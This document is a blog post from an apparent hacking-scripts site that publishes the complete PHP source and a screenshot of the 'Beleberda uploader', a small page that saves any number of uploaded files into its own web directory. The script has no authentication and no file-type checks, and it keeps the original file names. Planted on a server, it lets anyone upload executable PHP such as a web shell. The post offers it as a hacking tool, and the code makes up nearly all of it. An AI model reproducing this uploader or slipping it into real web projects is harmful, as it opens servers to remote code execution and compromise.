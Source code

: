 ```yaml
---
id: 308
title: beleberda uploader script
author: admin
layout: post
guid: http://hackingscripts.com/?p=308
permalink: /beleberda-uploader-script/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

Beleberda uploader script

## Beleberda Uploader Script source code

<pre class="brush: php; title: ; notranslate" title="">&lt;html&gt;

&lt;head&gt;
  &lt;title&gt;bele&lt;/title&gt;
&lt;/head&gt;

&lt;body&gt;
&lt;?php


 if(empty($_GET['Nfiles']))$Nfiles=15;else $Nfiles=$_GET['Nfiles'];
if($_FILES['userfile']['tmp_name'][0]!=''){
	for($i=0;$i&lt;$Nfiles&&$_FILES['userfile']['tmp_name'][$i]!='';$i++){
	$uploaddir = dirname(__FILE__);//'/var/www/uploads/';
	$uploadfile = $uploaddir .'/'. basename($_FILES['userfile']['name'][$i]);
	print "&lt;pre&gt;";
	if (move_uploaded_file($_FILES['userfile']['tmp_name'][$i], $uploadfile)) {
	   print "File is valid, and was successfully uploaded. ";
	   //print_r($_FILES);
	} else {
	   print "Possible fie upload attack!  Here's some debugging info:\n";
	   //print_r($_FILES);
	}
	print "&lt;/pre&gt;";
	}
}
?&gt;
&lt;form action="&lt;?php echo $_SERVER['PHP_SELF'].'?Nfiles='.$Nfiles; ?&gt;" method="post" enctype="multipart/form-data"&gt;
  Send beleberda:&lt;br&gt;
  &lt;?php for($i=0;$i&lt;$Nfiles;$i++){echo '&lt;input name="userfile[]" type="file"&gt;&lt;br&gt;';}?&gt;
  &lt;input type="submit" value="Send files"&gt;
&lt;/form&gt;

&lt;/body&gt;

&lt;/html&gt;
</pre>

A screenshot of the Beleberda script:<figure id="attachment_392" style="width: 268px;" class="wp-caption aligncenter">

[<img src="http://hackingscripts.com/wp/wp-content/uploads/2014/03/beleberda.png" alt="beleberda script screenshot" width="268" height="468" class="size-full wp-image-392" />][1]<figcaption class="wp-caption-text">Beleberda script screenshot</figcaption></figure>

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/03/beleberda.png